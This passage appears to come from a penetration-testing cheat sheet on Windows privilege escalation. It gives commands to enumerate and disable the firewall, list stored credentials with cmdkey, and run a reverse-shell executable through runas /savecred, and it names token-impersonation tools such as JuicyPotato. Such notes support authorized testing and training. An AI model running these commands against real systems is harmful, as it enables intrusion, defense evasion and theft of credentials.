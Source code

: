 * [Swisskyrepo for manual pwd enumeration](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

**AV / Firewall check / Service Enumeration**

```cmd
sc query windefend
netsh advfirewall firewall dump
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
netsh firewall show state (show firewall running or stopped)
netsh firewall show config (show firewall configuration)
netsh firewall set opmode disable # Disable firewall
```

**Scheduled Tasks**

```cmd
schtasks /query /fo LIST /v
```

**Mount Information**

```cmd
mountvol
```

#### Escalation Techniques

**Service Account Priv Esc (Token Impersonation)**

* Check `whoami /priv` for `SeImpersonatePrivilege`.
* Use JuicyPotato, RottenPotato, etc.

**Run As**

*   Use `cmdkey` to list stored credentials.

    ```cmd
    cmdkey /list
    Currently stored credentials:
      Target: Domain:interactive=WORKGROUP\Administrator
      Type: Domain Password
      User: WORKGROUP\Administrator
    ```
*   Using `runas` with a provided set of credentials.

    ```cmd
    runas /savecred /user:admin C:\PrivEsc\reverse.exe
    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "command"
    ```

**Access Check (Sysinternals accesschk.exe)**

```cmd
accesschk.exe -ucqv [service_name] /accepteula
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
```
